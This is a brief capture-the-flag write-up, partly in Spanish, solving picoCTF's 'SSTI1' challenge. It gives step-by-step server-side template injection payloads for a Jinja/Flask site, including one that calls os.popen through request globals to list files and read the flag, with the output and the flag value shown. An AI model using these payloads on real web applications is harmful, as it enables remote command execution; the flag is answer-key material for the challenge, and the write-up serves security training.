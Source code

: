 
## SSTI1
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:50752/)!

Hints:
1. Server Side Template Injection



## Solución
```

1. Entrar a la pagina:
[here](http://rescued-float.picoctf.net:50752/)!


2. Ingresar este código y darle ok
{{7*7}}



3. Ahora ingresar:  {{7*'7'}}

4. Ingresar después:  {{request}}
<Request 'http://rescued-float.picoctf.net:50752/announce' [POST]>


5. Ingresar:  {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}

__pycache__ app.py flag requirements.txt




6. Ahora este: {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}

```

#### Bandera
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```